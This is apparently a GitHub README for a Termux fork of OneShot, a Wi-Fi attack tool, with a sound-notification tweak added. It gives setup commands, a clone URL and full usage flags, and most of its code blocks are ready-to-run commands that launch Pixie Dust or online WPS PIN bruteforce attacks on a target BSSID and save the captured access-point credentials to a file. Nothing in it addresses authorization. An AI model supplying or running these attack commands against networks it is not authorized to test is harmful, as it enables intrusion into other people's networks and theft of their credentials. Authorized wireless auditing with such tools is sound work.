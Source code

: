 # Due to Read-only status of ```drygdryg``` repo...

# OneShot for Termux with vibro/sound notification

## [For sound notification line #1018 can be edited by yourself "sonar.mp3"](https://github.com/jevgenyonegin/OneShot_Termux_mod/blob/ee1485babb5a0e51e2b886d24d579e39af1e8abe/oneshot.py#L1018)
Termux: nano -l +1018 oneshot.py > make changes > Ctrl+o > Ctrl+x

## This method not working on MIUI roms (or maybe some others), so there is another way to at least play sound
```
pkg install play-audio
```
Edit line [#1018](https://github.com/jevgenyonegin/OneShot_Termux_mod/blob/ee1485babb5a0e51e2b886d24d579e39af1e8abe/oneshot.py#L1018) replacing "termux-media-player play" with "play-audio"

As example:
```
proc = subprocess.Popen('play-audio sonar.mp3', shell=True)
```
# Overview
**OneShot** performs [Pixie Dust attack](https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-Offline-WPS-Attack) without having to switch to monitor mode.
# Features
 - [Pixie Dust attack](https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-Offline-WPS-Attack);
 - integrated [3WiFi offline WPS PIN generator](https://3wifi.stascorp.com/wpspin);
 - [online WPS bruteforce](https://sviehb.files.wordpress.com/2011/12/viehboeck_wps.pdf);
 - Wi-Fi scanner with highlighting based on iw;
# Requirements
 - Python 3.6 and above;
 - [Wpa supplicant](https://www.w1.fi/wpa_supplicant/);
 - [Pixiewps](https://github.com/wiire-a/pixiewps);
 - [iw](https://wireless.wiki.kernel.org/en/users/documentation/iw).
# Setup

## [Termux](https://f-droid.org/en/packages/com.termux/)
Please note that root access is required.  

**Installing requirements**
 ```
 pkg install -y root-repo
 pkg install -y git tsu python wpa-supplicant pixiewps iw
 ```
**Getting OneShot**
 ```
 git clone --depth 1 https://github.com/jevgenyonegin/OneShot_Termux_mod OneShot
 ```
#### Running
 ```
 sudo python OneShot/oneshot.py -i wlan0 --iface-down -K
 ```

# Usage
```
 oneshot.py <arguments>
 Required arguments:
     -i, --interface=<wlan0>  : Name of the interface to use

 Optional arguments:
     -b, --bssid=<mac>        : BSSID of the target AP
     -p, --pin=<wps pin>      : Use the specified pin (arbitrary string or 4/8 digit pin)
     -K, --pixie-dust         : Run Pixie Dust attack
     -B, --bruteforce         : Run online bruteforce attack
     --pbc                    : Run WPS push button connection

 Advanced arguments:
     -d, --delay=<n>          : Set the delay between pin attempts [0]
     -w, --write              : Write AP credentials to the file on success
     -F, --pixie-force        : Run Pixiewps with --force option (bruteforce full range)
     -X, --show-pixie-cmd     : Alway print Pixiewps command
     --vuln-list=<filename>   : Use custom file with vulnerable devices list ['vulnwsc.txt']
     --iface-down             : Down network interface when the work is finished
     -l, --loop               : Run in a loop
     --mtk-wifi               : Activate MediaTek Wi-Fi interface driver on startup and deactivate it on exit
                                (for internal Wi-Fi adapters implemented in MediaTek SoCs). Turn off Wi-Fi in the system settings before using this.
     -v, --verbose            : Verbose output
 ```

## Usage examples
Start Pixie Dust attack on a specified BSSID:
 ```
 sudo python3 oneshot.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
 ```
Show avaliable networks and start Pixie Dust attack on a specified network:
 ```
 sudo python3 oneshot.py -i wlan0 -K
 ```
Launch online WPS bruteforce with the specified first half of the PIN:
 ```
 sudo python3 oneshot.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
 ```
## Troubleshooting
#### "RTNETLINK answers: Operation not possible due to RF-kill"
 Just run:
```sudo rfkill unblock wifi```
#### "Device or resource busy (-16)"
 Try disabling Wi-Fi in the system settings and kill the Network manager. Alternatively, you can try running OneShot with ```--iface-down``` argument.
#### The wlan0 interface disappears when Wi-Fi is disabled on Android devices with MediaTek SoC
 Try run the following:
```
sudo chmod 644 /dev/wmtWifi
sudo sh -c 'echo 1 > /dev/wmtWifi'
```
# Acknowledgements
## Special Thanks
* `rofl0r` for initial implementation;
* `drygdryg` for developing OneShot;
* `Monohrom` for testing, help in catching bugs, some ideas;
* `Wiire` developing Pixiewps;
* `eda-abec` for vulwsc updates and support;
* `vilvius31` for project support;
